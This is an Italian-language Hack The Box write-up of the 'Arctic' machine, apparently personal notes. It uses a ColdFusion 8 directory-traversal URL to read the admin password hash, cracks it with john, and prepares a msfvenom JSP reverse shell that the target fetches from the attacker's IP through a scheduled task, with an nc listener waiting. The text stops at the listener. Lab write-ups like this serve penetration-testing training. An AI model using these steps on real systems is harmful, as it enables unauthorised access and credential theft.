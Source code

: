 Diamo un'occhiata al codice dell'exploit 14641. 
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

In realtà non dobbiamo eseguire il file exploit. 
Invece, potremmo semplicemente navigare verso l'URL sopra per visualizzare il contenuto del file `password.properties`.

![[1*1WRx1zCNkyVb_qfEHcQYiA.webp]]
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03

l'hash sembra essere un SHA1 proviamo ad darlo in impasto a john per rompere l'hash
```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# john hash.txt --format=raw-sha1 -wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA1 [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
happyday         (?)     
1g 0:00:00:00 DONE (2023-05-15 01:56) 33.33g/s 170666p/s 170666c/s 170666C/s jodie..babygrl
Use the "--show --format=Raw-SHA1" options to display all of the cracked passwords reliably
Session completed. 
```

Ci loggiamo con admin:happyday e siamo dentro 

>NOTA: APPROFONDIRE PASS THE HASH

## METODO CON AUTENFICAZIONE ADMIN

Una volta avuto l'accesso al prompt dell'admin addiamo al sezione "SERVER SETTING MAPPING" e prendiamo nota dalla directory path di /CFID nel nostro caso 

C:\ColdFusion8\wwwroot\CFIDE

Prepariamo un payload come segue
```bash
┌──(root㉿kali)-[/home/kali/htb/artic]
└─# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.53 LPORT=4444 -f raw > shell.jsp 
```

Ci spostiamo nella sezione "DEBUGGING & LOGGING > ADD/EDIT SCHEDULED TASK 
e aggiungiamo un nuovo schedule

![[1*HqvdBk09BVtq1448nzEWFA.webp]]

alla voce Url mettiamo il nostro ip
http://10.10.14.53:80/shell.jsp

alla voce file mettiamo la path salvata in precenza 
C:\ColdFusion8\wwwroot\CFIDE

Salviamo, ci mettimo in ascolto con nc
```bash
┌──(root㉿kali)-[/home/kali/htb/optimun]
└─# nc -lnvp 4444
listening on [any] 4444 ...
```
